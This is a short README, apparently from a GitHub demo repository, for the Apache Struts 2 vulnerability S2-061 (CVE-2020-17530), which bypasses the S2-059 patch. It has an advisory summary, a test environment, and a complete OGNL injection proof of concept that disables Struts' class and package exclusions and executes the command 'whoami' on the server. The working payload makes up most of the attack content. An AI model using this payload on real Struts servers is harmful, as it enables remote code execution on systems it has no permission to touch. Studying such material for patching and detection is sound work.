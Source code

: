 # S2-061 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Possible Remote Code Execution vulnerability                 |
| Maximum security rating | Important                                                    |
| Recommendation          | Upgrade to [Struts 2.5.26](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.26) or greater |
| Affected Software       | Struts 2.0.0 - Struts 2.5.25                                 |
| Reporters               | Alvaro Munoz - pwntester at github dot comMasato Anzai of Aeye Security Lab, inc. |
| CVE Identifier          | CVE-2020-17530                                               |

## Problem

S2-061是对S2-059补丁的绕过。

## Environment

| Struts2 Version | Struts-2.5.25          |
| :-------------- | :--------------------- |
| Web Server      | Tomcat 8.5.53          |
| IDE             | IDEA 2020.1.1 ULTIMATE |

## POC

命令执行：

```java
%{('Powered_by_Unicode_Potats0,enjoy_it').(#UnicodeSec = #application['org.apache.tomcat.InstanceManager']).(#potats0=#UnicodeSec.newInstance('org.apache.commons.collections.BeanMap')).(#stackvalue=#attr['struts.valueStack']).(#potats0.setBean(#stackvalue)).(#context=#potats0.get('context')).(#potats0.setBean(#context)).(#sm=#potats0.get('memberAccess')).(#emptySet=#UnicodeSec.newInstance('java.util.HashSet')).(#potats0.setBean(#sm)).(#potats0.put('excludedClasses',#emptySet)).(#potats0.put('excludedPackageNames',#emptySet)).(#exec=#UnicodeSec.newInstance('freemarker.template.utility.Execute')).(#cmd={'whoami'}).(#res=#exec.exec(#cmd))}
```

![](img/AE154B9A-281D-4085-83F9-0A2D55B3016E.png)

## Debug

Debug流程还是跟s2-059相同，可参考s2-059的debug分析。

## Reference

- [S2-061](https://cwiki.apache.org/confluence/display/WW/S2-061)
- [Struts2 s2-061 Poc分析](https://mp.weixin.qq.com/s/skV6BsARvie33vV2R6SZKw)